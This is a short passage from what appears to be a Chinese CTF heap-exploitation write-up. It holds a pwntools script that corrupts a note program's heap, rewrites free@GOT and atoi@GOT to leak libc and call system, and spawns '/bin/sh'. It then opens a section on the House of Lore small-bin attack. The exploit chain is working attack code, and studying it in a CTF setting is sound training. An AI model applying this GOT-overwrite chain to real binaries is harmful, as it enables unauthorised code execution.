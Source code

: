 ```python
notelist_addr = 0x0804B120
notechunk = 0x0804b110
offset = notelist_addr - 0x10 - (heap_base+0xd8) - 0x10
create(offset,b'dddd')#0
create(0x40,b'eeee')#1
create(0x40,b'ffff')#2
create(0x40,b'ffff')#3

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
free_got = elf.got['free'] 
atoi_got = elf.got['atoi']

edit(1,b'f'*0x14 + p32(notechunk) + p32(free_got))
edit(2,p32(puts_plt))
edit(1,b'f'*0x14 + p32(notechunk) + p32(puts_got))
delete(2)
leak = u32(p.recv(4))
puts_addr = leak
log.success('puts_addr ==>> ' + hex(puts_addr))
libc_base = puts_addr - libc.sym['puts']
log.success('libc_base ==>> ' + hex(libc_base))
system = libc_base + libc.sym['system']

edit(1,b'f'*0x14 + p32(notechunk) + p32(0) + p32(atoi_got))
edit(3,p32(system))

p.recvuntil(b'option--->>\n')
p.sendline(b'/bin/sh\x00')

p.interactive()
```

# house of lore
House of Lore 攻击与 Glibc 堆管理中的 Small Bin 的机制紧密相关。

